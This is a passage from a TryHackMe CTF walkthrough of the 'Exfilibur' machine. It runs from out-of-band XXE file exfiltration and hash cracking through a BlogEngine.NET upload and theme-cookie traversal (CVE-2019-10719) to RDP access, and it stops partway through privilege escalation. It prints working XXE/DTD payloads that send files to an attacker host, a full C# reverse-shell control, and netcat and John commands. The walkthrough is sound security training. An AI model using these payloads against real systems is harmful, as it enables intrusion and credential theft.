

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ python3 -m http.server 445 
Serving HTTP on 0.0.0.0 port 445 (http://0.0.0.0:445/) ...
10.129.150.180 - - [01/Nov/2026 14:20:52] code 404, message File not found
10.129.150.180 - - [01/Nov/2026 14:20:52] "GET /oob.xml HTTP/1.1" 404 -
```

The target connected immediately. Port 445 was wide open for outbound traffic.

> **Note on NTLMv2 Capture:** You could also point the `apml` parameter to an SMB share (`\\192.168.130.95\lol\test.xml`) and capture the NetBIOS / NTLMv2 hash for user `merlin` using Responder. In our testing, the captured NTLMv2 hash did not crack with standard wordlists, so direct file exfiltration via XXE remained the best path forward.

---

### 4.4 Exfiltrating users.xml Out-of-Band

Because the XML parser doesn't reflect file contents back in the HTTP response, we have to pull the data out using an external Document Type Definition (DTD). 

The trick works like this:
1. The server loads our initial XML payload (`oob.xml`).
2. `oob.xml` pulls an external DTD (`exfil.dtd`) hosted on our machine.
3. The DTD reads the target local file using a parameter entity (`%p1`).
4. A second parameter entity (`%p2`) wraps that data into another entity (`&e1;`) which triggers an HTTP GET request back to our machine, appending the stolen file content as a URL parameter (`?exfil=...`).

We first validated this against `C:/WINDOWS/win.ini`:

- **📄 oob.xml**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "http://192.168.130.95:445/exfil.dtd">
<foo>&e1;</foo>
```

- **📄 exfil.dtd**
```xml
<!ENTITY % p1 SYSTEM "file:///C:/WINDOWS/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.130.95:445/?exfil=%p1;'>">
%p2;
```

We send the request: `http://10.129.150.180/blog/syndication.axd?apml=http://192.168.130.95:445/oob.xml`

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ python3 -m http.server 445
Serving HTTP on 0.0.0.0 port 445 (http://0.0.0.0:445/) ...
10.129.150.180 - - [01/Nov/2026 14:55:44] "GET /oob.xml HTTP/1.1" 200 -
10.129.150.180 - - [01/Nov/2026 14:55:45] "GET /exfil.dtd HTTP/1.1" 200 -
10.129.150.180 - - [01/Nov/2026 14:55:45] "GET /?exfil=;%20for%2016-bit%20app%20support%0D%0A[fonts]%0D%0A[extensions]%0D%0A[mci%20extensions]%0D%0A[files]%0D%0A[Mail]%0D%0AMAPI=1 HTTP/1.1" 200 -
```

`win.ini` came back cleanly in the HTTP query string. 

Now we update `exfil.dtd` to point directly to the full path of `users.xml` (`C:/inetpub/wwwroot/blog/App_Data/users.xml`):

- **📄 exfil.dtd**
```xml
<!ENTITY % p1 SYSTEM "file:///C:/inetpub/wwwroot/blog/App_Data/users.xml">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.130.95:445/?exfil=%p1;'>">
%p2;
```

We re-send the request to `/blog/syndication.axd`, and the server dumps `users.xml` back to our listener:

```bash
10.129.150.180 - - [01/Nov/2026 14:59:20] "GET /oob.xml HTTP/1.1" 200 -
10.129.150.180 - - [01/Nov/2026 14:59:20] "GET /exfil.dtd HTTP/1.1" 200 -
10.129.150.180 - - [01/Nov/2026 14:59:20] "GET /?exfil=%3CUsers%3E%0D%0A%20%20%3CUser%3E%0D%0A%20%20%20%20%3CUserName%3EAdmin%3C/UserName%3E%0D%0A%20%20%20%20%3CPassword%3EwobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0=%3C/Password%3E%0D%0A%20%20%20%20%3CEmail%3Epost@example.com%3C/Email%3E%0D%0A%20%20%20%20%3CLastLoginTime%3E2007-12-05%2020:46:40%3C/LastLoginTime%3E%0D%0A%20%20%3C/User%3E%0D%0A%20%20%3C!--%0D%0A%3CUser%3E%0D%0A%20%20%20%20%3CUserName%3Emerlin%3C/UserName%3E%0D%0A%20%20%20%20%3CPassword%3E%3C/Password%3E%0D%0A%20%20%20%20%3CEmail%3Emark@email.com%3C/Email%3E%0D%0A%20%20%20%20%3CLastLoginTime%3E2023-08-11%2010:58:51%3C/LastLoginTime%3E%0D%0A%20%20%3C/User%3E%0D%0A--%3E%0D%0A%20%20%3CUser%3E%0D%0A%20%20%20%20%3CUserName%3Eguest%3C/UserName%3E%0D%0A%20%20%20%20%3CPassword%3EhJg8YPfarcHLhphiH4AsDZ+aPDwpXIEHSPsEgRXBhuw=%3C/Password%3E%0D%0A%20%20%20%20%3CEmail%3Eguest@email.com%3C/Email%3E%0D%0A%20%20%20%20%3CLastLoginTime%3E2023-08-12%2008:47:51%3C/LastLoginTime%3E%0D%0A%20%20%3C/User%3E%0D%0A%3C/Users%3E HTTP/1.1" 200 -
```

URL-decoding the stolen string:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ echo '%3CUsers%3E%0D%0A%20%20%3CUser%3E%0D%0A%20%20%20%20%3CUserName%3EAdmin%3C/UserName%3E%0D%0A%20%20%20%20%3CPassword%3EwobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0=%3C/Password%3E%0D%0A%20%20%20%20%3CEmail%3Epost@example.com%3C/Email%3E%0D%0A%20%20%20%20%3CLastLoginTime%3E2007-12-05%2020:46:40%3C/LastLoginTime%3E%0D%0A%20%20%3C/User%3E%0D%0A%20%20%3C%0D%0A%3CUser%3E%0D%0A%20%20%20%20%3CUserName%3Emerlin%3C/UserName%3E%0D%0A%20%20%20%20%3CPassword%3E%3C/Password%3E%0D%0A%20%20%20%20%3CEmail%3Emark@email.com%3C/Email%3E%0D%0A%20%20%20%20%3CLastLoginTime%3E2023-08-11%2010:58:51%3C/LastLoginTime%3E%0D%0A%20%20%3C/User%3E%0D%0A--%3E%0D%0A%20%20%3CUser%3E%0D%0A%20%20%20%20%3CUserName%3Eguest%3C/UserName%3E%0D%0A%20%20%20%20%3CPassword%3EhJg8YPfarcHLhphiH4AsDZ+aPDwpXIEHSPsEgRXBhuw=%3C/Password%3E%0D%0A%20%20%20%20%3CEmail%3Eguest@email.com%3C/Email%3E%0D%0A%20%20%20%20%3CLastLoginTime%3E2023-08-12%2008:47:51%3C/LastLoginTime%3E%0D%0A%20%20%3C/User%3E%0D%0A%3C/Users%3E' | nkf -w --url-input

<Users>
  <User>
    <UserName>Admin</UserName>
    <Password>wobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0=</Password>
    <Email>post@example.com</Email>
    <LastLoginTime>2007-12-05 20:46:40</LastLoginTime>
  </User>
  <
<User>
    <UserName>merlin</UserName>
    <Password></Password>
    <Email>mark@email.com</Email>
    <LastLoginTime>2023-08-11 10:58:51</LastLoginTime>
  </User>
-->
  <User>
    <UserName>guest</UserName>
    <Password>hJg8YPfarcHLhphiH4AsDZ+aPDwpXIEHSPsEgRXBhuw=</Password>
    <Email>guest@email.com</Email>
    <LastLoginTime>2023-08-12 08:47:51</LastLoginTime>
  </User>
</Users>
```

We now have two candidate accounts with password hashes:
- `Admin`: `wobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0=`
- `guest`: `hJg8YPfarcHLhphiH4AsDZ+aPDwpXIEHSPsEgRXBhuw=`

---

### 4.5 Cracking the Guest Password Hash

BlogEngine stores hashes as raw SHA-256 byte arrays encoded in Base64. To crack them using `john` or `hashcat`, we need to decode the Base64 strings into 64-character hex strings:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ echo wobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0= | base64 -d | xxd -p -c 32
c286d2fc0bca14f4f9a8ff45810ca1ec2fa473e93ed6b0736ce7fb3b17e9b70d
                                                                                              
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ echo hJg8YPfarcHLhphiH4AsDZ+aPDwpXIEHSPsEgRXBhuw= | base64 -d | xxd -p -c 32
84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec
```

We format our hash list:

- **📄 hashes.txt**
```bash
Admin:c286d2fc0bca14f4f9a8ff45810ca1ec2fa473e93ed6b0736ce7fb3b17e9b70d
guest:84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec
```

We feed `hashes.txt` into John the Ripper using the `rockyou.txt` wordlist with format `Raw-SHA256`:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=20
Will run 20 OpenMP threads
Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
guest            (guest)     
1g 0:00:00:00 DONE (2026-11-01 15:16) 1.754g/s 25163Kp/s 25163Kc/s 25738KC/s 033500233..*7¡Vamos!
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

Viewing the cracked hash:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ john hashes.txt --format=Raw-SHA256 --show
guest:guest

1 password hash cracked, 1 left
```

The password for user `guest` is simply **`guest`**.

---

### 4.6 Mining CMS Drafts for Lateral Movement Credentials

We head back to the browser and log into `http://10.129.150.180/blog` with `guest:guest`:



Looking at the post list, there is an unpublished draft post:



Opening the draft reveals notes intended for King Arthur:
- **Password:** `Excal1burP@ss1337`

We now have valid credentials for King Arthur's local account.

---

## 5. Gaining a Foothold (Shell as merlin)

### 5.1 The RCE Plan: Malicious ASP.NET Control (CVE-2019-10719)

Our `guest` user belongs to the `Editors` group in BlogEngine.NET. In version 3.3.7.0, editors can upload files via the post editor's file manager (**CVE-2019-10719**). 

The application uses ASP.NET User Controls (`.ascx` files) to render elements of blog posts. When BlogEngine renders a post, it calls `Page.LoadControl()` to dynamically compile and execute the control associated with the active theme. If an editor uploads a weaponized `PostView.ascx` file containing server-side C# code (`<script runat="server">`), the web server compiles and executes that code on request.

Remembering our egress limitation, our reverse shell payload must dial back on **port 445**:

```csharp
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
  static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

  using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("192.168.130.95", 445)) {
    using(System.IO.Stream stream = client.GetStream()) {
      using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
        streamWriter = new System.IO.StreamWriter(stream);

        StringBuilder strInput = new StringBuilder();

        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = "cmd.exe";
        p.StartInfo.CreateNoWindow = true;
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.StartInfo.RedirectStandardInput = true;
        p.StartInfo.RedirectStandardError = true;
        p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
        p.Start();
        p.BeginOutputReadLine();

        while(true) {
          strInput.Append(rdr.ReadLine());
          p.StandardInput.WriteLine(strInput);
          strInput.Remove(0, strInput.Length);
        }
      }
    }
      }
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
     StringBuilder strOutput = new StringBuilder();

         if (!String.IsNullOrEmpty(outLine.Data)) {
           try {
                  strOutput.Append(outLine.Data);
                      streamWriter.WriteLine(strOutput);
                      streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```

> **Reminder:** Ensure your listener IP (`192.168.130.95`) and port (`445`) match your active network interface.

---

### 5.2 Navigating the Theme Directory Write Restriction

In the post editor, clicking the attachment button opens the file upload dialog:



Most public writeups and exploit scripts for CVE-2019-10719 try to upload `PostView.ascx` directly into `/Custom/Themes/` by tampering with the `dirPath` parameter in Burp Suite:



When we tried setting `dirPath=/../../Custom/Themes/`, the server threw an error. On this system, the IIS Application Pool identity doesn't have write permissions to `/Custom/Themes/`.

---

### 5.3 Weaponizing the Theme Cookie Traversal

Instead of fighting NTFS permissions on `/Custom/Themes/`, there is a much cleaner bypass:
1. Upload `PostView.ascx` to the normal, default upload folder: `/App_Data/files/`. This folder is always writable by design.
2. Exploit a path traversal bug in the application's theme selection logic. BlogEngine allows users to preview themes via a `theme` cookie. If we send:
   ```http
   Cookie: theme=../../App_Data/files
   ```
   The application prepends this value to `/PostView.ascx`, resolving to `C:\inetpub\wwwroot\blog\App_Data\files\PostView.ascx`. 

We upload `PostView.ascx` normally to `/App_Data/files/`:



---

### 5.4 Catching the Reverse Shell on Port 445

We set up our netcat listener on our attacker machine on port 445:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ rlwrap nc -lvnp 445         
listening on [any] 445 ...
```

In Burp Suite, we make a standard GET request to view any existing post on the blog, adding our traversal string to the `theme` cookie:



As soon as the request hits the server, the ASP.NET runtime compiles and loads our `.ascx` control, and our listener catches a shell:

```bash
connect to [192.168.130.95] from (UNKNOWN) [10.129.150.180] 52012
Microsoft Windows [Version 10.0.17763.4737]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
whoami
c:\windows\system32\inetsrv>whoami
exfilibur\merlin
```

We now have code execution as the service account **`exfilibur\merlin`**.

---

## 6. Pivoting to King Arthur (kingarthy)

### 6.1 Identifying the Local Accounts

With our foothold shell in hand, we list the local users on the machine:

```bash
c:\windows\system32\inetsrv>
net user
c:\windows\system32\inetsrv>net user
User accounts for \\EXFILIBUR
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
kingarthy                merlin                   WDAGUtilityAccount       
The command completed successfully.
```

The username for King Arthur is **`kingarthy`**.

---

### 6.2 Logging in via RDP & Grabbing the User Flag

We have the username (`kingarthy`) and the password found in the blog draft (`Excal1burP@ss1337`). 

Since port 3389 (RDP) was open during our initial port scan, we can connect using `xfreerdp`. We disable certificate checks and specify NTLM authentication:

```bash
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Exfilibur]
└─$ xfreerdp /u:kingarthy /p:'Excal1burP@ss1337' /v:10.129.150.180 /cert:ignore +dynamic-resolution /auth-pkg-list:none,ntlm
```

The credentials work, giving us a graphical desktop session:



Sitting right on `kingarthy`'s Desktop is the user flag:

- **User Flag:** `THM{HACKERS_EXFILTRATE_DATA_NOT_DRAGONS}`

---

## 7. Privilege Escalation to NT AUTHORITY\SYSTEM

### 7.1 Inspecting Token Privileges & Running Elevated

Opening a regular command prompt as `kingarthy` and checking our privileges:

```bash
C:\Users\kingarthy>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Nothing useful is enabled in our medium-integrity token. But `kingarthy` is an administrative user. When we spawn an elevated command prompt (Run as Administrator) using our known password:



Checking privileges inside the elevated prompt:

```bash
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeRestorePrivilege            Restore files and directories            Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

We now see two powerful privileges present in our token:
- **`SeTakeOwnershipPrivilege`:** Allows us to take ownership of any file, directory, or registry object on the system, regardless of its discretionary access control list (DACL).
- **`SeRestorePrivilege`:** Allows us to overwrite any file on the system, bypassing write permission checks.

They are currently marked as `Disabled`, which is standard Windows security behavior—privileges are present in the token but must be programmatically enabled before use.

---

### 7.2 Enabling SeTakeOwnershipPrivilege and SeRestorePrivilege

In Windows, any process running with a token that contains a privilege can call the Win32 API `AdjustTokenPrivileges` to toggle its state from `Disabled` to `Enabled`. 

